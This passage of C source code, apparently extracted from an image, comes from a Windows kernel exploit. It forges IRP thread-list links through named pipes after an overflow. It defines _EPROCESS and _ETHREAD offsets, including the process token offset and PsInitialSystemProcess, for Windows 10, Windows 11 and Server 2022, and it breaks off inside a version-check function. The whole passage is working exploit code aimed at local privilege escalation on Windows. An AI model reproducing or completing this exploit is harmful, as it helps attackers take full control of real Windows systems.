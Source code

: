 ```
  fakeirp_w -> ThreadListEntry.Flink = (ULONGLONG)(thread_list);
  fakeirp_w -> ThreadListEntry.Blink = (ULONGLONG)(thread_list);
  thread_list[0] = thread_list[1] = (DWORD64)((LPBYTE) fakeirp_w + offsetof(IRP, ThreadListEntry.Flink));

  ReadFile(pipes[overflowidx].r, & dummyvalue, 0x1, & read, 0);
}

/*********  Define Offset Area*******/

// From _EPROCESS
// #define UNIQUEPROCESSIDOFFSET 0x440
// #define ACTIVEPROCESSLINTOFFSET 0x448
// #define TOKENOFFSET 0x4b8
// #define ThreadListHeadOffset 0x5e0

// From _ETHREAD
// Win11
//#define ThreadListEntryOffset 0x538
//#define CIDOffset 0x4c8

// Windows Server 2022
//#define ThreadListEntryOffset 0x538
//#define CIDOffset 0x4c8

// Win10
//#define ThreadListEntryOffset 0x4e8
//#define CIDOffset 0x478

ULONG UNIQUEPROCESSIDOFFSET;
ULONG ACTIVEPROCESSLINTOFFSET;
ULONG TOKENOFFSET;
//ULONG ThreadListHeadOffset;

//ULONG ThreadListEntryOffset;
//ULONG CIDOffset;
ULONG ProcessOffset;
ULONG IrpListOffset;

// FROM _FILE_OBJECT, _DEVICE_OBJECT, _DRIVER_OBJECT
#define DEVICE_OBJECT_OFFSET 0x8
#define DRIVER_OBJECT_OFFSET 0x8
#define DRIVER_START_OFFSET 0x18

// Update by PE parsing
ULONG RtlQueryRegistryValuesEx_Offset;
ULONG PsInitialSystemProcess_Offset;
ULONG IAT_RtlQueryRegistryValuesEx_Offset;

//----------------------------------

VOID CheckVersion() {
  HMODULE hDll = LoadLibrary(TEXT("Ntdll.dll"));
  typedef NTSTATUS(CALLBACK * RTLGETVERSION)(PRTL_OSVERSIONINFOW lpVersionInformation);
  RTLGETVERSION pRtlGetVersion;
  pRtlGetVersion = (RTLGETVERSION) GetProcAddress(hDll, "RtlGetVersion");
  if (pRtlGetVersion) {
    RTL_OSVERSIONINFOW ovi = {
      0
    };
    ovi.dwOSVersionInfoSize = sizeof(ovi);
    NTSTATUS ntStatus = pRtlGetVersion( & ovi);
    if (ntStatus == 0) {
```